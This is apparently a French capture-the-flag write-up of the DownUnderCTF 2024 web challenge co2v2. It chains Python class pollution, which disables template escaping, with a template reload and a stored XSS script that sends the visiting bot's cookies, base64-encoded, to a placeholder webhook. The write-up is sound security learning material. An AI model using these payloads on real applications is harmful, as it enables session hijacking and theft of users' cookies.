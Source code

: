 # co2v2

code : [https://github.com/DownUnderCTF/Challenges_2024_Public/tree/main/web/co2v2/src](https://)

Ce challenge est la suite de co2 dans laquelle on a trouvé une vulnérabilité de type prototype pollution : [https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution](https://). Cette vulnérabilité nous permettait de réécrire n'importe quelle variable globale à travers la route /save_feedback avec comme payload ```{"__class__":{"__init__":{"__globals__":{"GLOBAL_VAR":"VALUE"}}}}```. Ce payload nous permet de remonter la hiérarchie python jusqu'à tomber sur l'objet __globals__ et ainsi accéder aux dictionnaires des variables globales.

Dans ce challenge, la première chose que l'on remarque c'est la présence d'un bot xss avec le flag dans les cookies. Lorsqu'on accède à la route /api/v1/report, on déclenche le bot xss qui visit la page d'accueil. On sait donc que l'on doit introduire un script js dans la page d'accueil. Ce qui tombe bien vu que les blog posts sont affichés sur l'accueil lorsque les posts sont publics.

On commence par introduire des simples balises html dans un post pour voir le résultat, malheureusement le html n'est pas interprété. En lisant le code, on voit que notre input est passé directement dans la base de donnée sans modification. On remarque aussi une variable globale intéressante TEMPLATES_ESCAPE_ALL = True, qui va faire le lien avec le premier challenge. Cette variable globale est passé au moteur de Template qui va s'occuper de l'escaping.

On peut passer TEMPLATES_ESCAPE_ALL à False grâce à la vulnérabilité du premier challenge. Cependant, nos balises html ne sont toujours pas interprétés. Le problème est que le moteur de template est chargé une unique fois au démarrage et que la modification de TEMPLATES_ESCAPE_ALL n'est pas suffisante. Il nous faut recharger le moteur de Template avec la modification de notre variable. Heureusement, la route /admin/update-accepted-templates nous permet de faire cette action.

Cette fois ci, les balises html sont interprétés. Pour finir, ils nous suffit d'introduire le script suivant dans un blog post public
```<script>fetch("http://<webhook>/"+btoa(document.cookie))</script>``` et de trigger la visite du bot xss pour récupérer les cookies et le flag.
